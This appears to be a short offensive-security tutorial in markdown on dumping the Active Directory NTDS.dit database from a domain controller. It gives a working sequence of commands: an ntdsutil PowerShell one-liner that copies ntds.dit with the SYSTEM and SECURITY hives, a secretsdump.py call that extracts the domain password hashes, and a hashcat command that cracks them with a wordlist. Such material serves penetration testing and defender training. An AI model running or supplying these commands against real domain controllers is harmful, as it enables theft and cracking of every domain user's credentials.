 **New Technologies Directory Services (NTDS)**

Is a database containing all Active Directory data, including objects, attributes, credentials, etc.<br>
NTDS is located in ```C:\Windows\NTDS``` by default, and it is encrypted to prevent data extraction from a target machine. Accessing the ```NTDS.dit``` file from the machine running is disallowed since the file is used by Active Directory and is locked.
<br>However, there are various ways to gain access to it. 
we will use ```ntdsutil``` tool to make a copy to dump the file's content. It is important to note that decrypting the NTDS file requires a system Boot Key to attempt to decrypt LSA Isolated credentials, which is stored in the ```SECURITY``` file system. Therefore, we must also dump the security file containing all required files to decrypt. <br>

**Local Dumping (No Credentials)**

This is usually done if you have no credentials available but have administrator access to the domain controller.<br>
To successfully dump the content of the NTDS file we need the following files:

    C:\Windows\NTDS\ntds.dit
    C:\Windows\System32\config\SYSTEM
    C:\Windows\System32\config\SECURITY

The following is a one-liner PowerShell command to dump the NTDS file using the ```Ntdsutil``` tool in the ```C:\temp``` directory.
```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
Now, if we check the c:\temp directory, we see two folders: ```Active Directory``` and ```registry```.<br>
The two folders contain the required 3 files mentioned above.<br>
Then we will use ```secretsdump.py``` tool to extract the hashes.
```
secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
```
Finally, we could use ```hashcat``` to crack the hashes.
```
hashcat -m 1000 -a 0 hashes.txt /path/to/rockyou.txt --force
```

















        

